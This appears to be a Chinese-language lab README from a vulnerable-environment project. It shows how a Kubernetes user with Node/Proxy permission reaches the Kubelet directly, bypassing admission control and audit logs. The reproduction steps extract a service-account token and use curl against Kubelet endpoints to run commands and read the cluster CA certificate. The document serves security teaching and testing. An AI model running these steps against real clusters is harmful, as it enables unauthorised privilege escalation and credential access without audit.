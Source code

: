 # 利用Node/Proxy进行权限提升

## 场景介绍

研究发现，具有Node/Proxy权限的K8s用户可以绕过API server的认证，直接和Kubelet进行通信，从而绕过K8s的准入控制和日志审计，达到权限提升的效果。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install k8s_node_proxy
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`k8s_node_proxy`的pod。

## 漏洞复现

利用具有node/proxy权限的token值去访问Kubelet，发现可以执行在理论情况下无权限执行的命令，则权限提升成功：

```
1. sudo kubectl get secrets -n metarget | grep node-proxy	#获取secrets名
k8s-node-proxy-token-qdkqv           kubernetes.io/service-account-token   3      22m
2. sudo kubectl get secrets k8s-node-proxy-token-qdkqv -n metarget -o yaml #获取token值
3. token=`(echo xxxx | base 64 -d)` #token编码
4. curl -k https://kubelet-ip:kubelet-port/runningpods/ -H "Authorization: Bearer $token"	#查询集群内运行的pod
或
curl -k https://kubelet-ip:kubelet-port/run/kube-system/<apiserver-pod>/<container-name> -H "Authorization: Bearer $token" -d "cmd=cat+/etc/kubernetes/pki/ca.crt"	# 查询kube-apiserver pod中的证书
```

## 参考文献

1. https://blog.aquasec.com/privilege-escalation-kubernetes-rbac